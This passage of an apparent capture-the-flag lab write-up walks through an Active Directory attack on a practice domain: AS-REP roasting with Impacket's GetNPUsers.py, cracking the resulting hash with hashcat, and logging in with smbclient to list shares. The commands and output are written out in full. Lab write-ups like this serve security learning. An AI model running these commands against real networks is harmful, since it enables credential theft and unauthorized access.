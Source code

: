 ## 🔓 AS-REP Roasting

We test for users with preauthentication disabled using Impacket's `GetNPUsers.py`:

```bash
GetNPUsers.py spookysec.local/ -no-pass -usersfile userlist.txt -dc-ip 10.10.230.172
```

### Result:

The user `svc-admin` is vulnerable, and we receive an AS-REP hash:

```plaintext
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:[REDACTED_HASH]
```

---

## 🔑 Cracking the Hash (Offline)

We crack the hash using Hashcat:

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

### Cracked:

```
Username: svc-admin
Password: [REDACTED]
```

---

## 📁 SMB Enumeration (Authenticated)

We authenticate with our newly cracked credentials:

```bash
smbclient -L //10.10.230.172 -U svc-admin%[REDACTED]
```

### Discovered Shares:

| Sharename   | Type | Description               |
|-------------|------|---------------------------|
| ADMIN$      | Disk | Remote Admin              |
| backup      | Disk | 📌 Interesting custom share |
| C$          | Disk | Default admin share       |
| IPC$        | IPC  | Remote IPC                |
| NETLOGON    | Disk | Logon scripts             |
| SYSVOL      | Disk | Group policy configs      |
